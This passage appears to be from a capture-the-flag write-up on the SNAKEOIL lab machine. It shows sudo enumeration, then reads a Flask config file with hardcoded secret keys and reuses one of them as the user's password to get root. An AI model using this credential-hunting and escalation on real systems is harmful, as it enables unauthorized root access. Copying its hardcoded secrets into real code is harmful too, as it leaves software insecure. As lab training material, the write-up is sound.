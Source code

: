 Our standard enumeration shows that patrick has sudo permissions on the shutdown binary, but it asks us for his password:

```
patrick@SNAKEOIL:~$ sudo -l
Matching Defaults entries for patrick on SNAKEOIL:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on SNAKEOIL:
    (root) NOPASSWD: /sbin/shutdown
    (ALL : ALL) ALL
patrick@SNAKEOIL:~$ sudo /sbin/shutdown -h
[sudo] password for patrick:
```

After a bit more poking around the system we eventually find the password.

```
patrick@SNAKEOIL:~/flask_blog$ cat app.py
import sqlite3
import json

from flask import Flask, render_template, request, url_for, flash, redirect, jsonify, make_response, abort

...

app = Flask(__name__)
api = Api(app)
app.config['SECRET_KEY'] = 'snakeoilisnotgoodforcorporations'
app.config['JWT_COOKIE_SECURE'] = True
app.config['JWT_SECRET_KEY'] = 'NOreasonableDOUBTthisPASSWORDisGOOD'
app.config['JWT_ACCESS_TOKEN_EXPIRES'] = timedelta(minutes=15)
app.config['JWT_REFRESH_TOKEN_EXPIRES'] = timedelta(hours=1)

...

    return jsonify(success=True, message=outs.decode('utf-8'))

# hosting instructions

if __name__  == "__main__":
    app.run(host='0.0.0.0')
```

We try that password and BAM we are root (not groot but kinda cooler?)
```
patrick@SNAKEOIL:~/flask_blog$ sudo su
[sudo] password for patrick:
root@SNAKEOIL:/home/patrick/flask_blog#
```
